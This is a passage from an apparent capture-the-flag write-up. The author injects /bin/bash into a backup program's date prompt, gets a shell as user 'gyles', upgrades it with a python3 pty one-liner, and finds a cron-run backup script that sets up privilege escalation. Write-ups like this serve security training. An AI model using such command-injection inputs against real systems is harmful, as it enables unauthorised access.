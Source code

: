 I run it again:

```
Reading stats.
Reading stats..
Enter name of person backing up the data: test
Enter 'date' to timestamp the file: now
The Date is Stats have been backed up
```

And in the .bak file:

```
Website_views=1337
Unique_views=436
Disc_members=16
Events_won=1


anon
anon
anon
anon
anon
anon
anon
anon
anon
test
test
```

We can see that the test user I gave it got added but even though it asked for a date that wasn't put in there anywhere, and the filename itself has the correct date in it.

I want to test what happens if I enter /bin/bash in each of the inputs and find that if you enter it in the date prompt it breaks out and you're now on the system as gyles:

```
Reading stats.
Reading stats..
Enter name of person backing up the data: asdf
Enter 'date' to timestamp the file: /bin/bash
The Date is whoami
gyles
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

I fix the shell so it's a bit easier to use and then check `sudo -l` but it requires a password.

I look around the system more and end up in the /opt/admin_stuff directory. Inside is a file called script.sh which contains:

```
#!/bin/bash
#I have set a cronjob to run this script every minute


dev_site="/usr/local/sbin/dev_backup.sh"
main_site="/usr/local/bin/main_backup.sh"
#Back ups the sites locally
$main_site
$dev_site
```
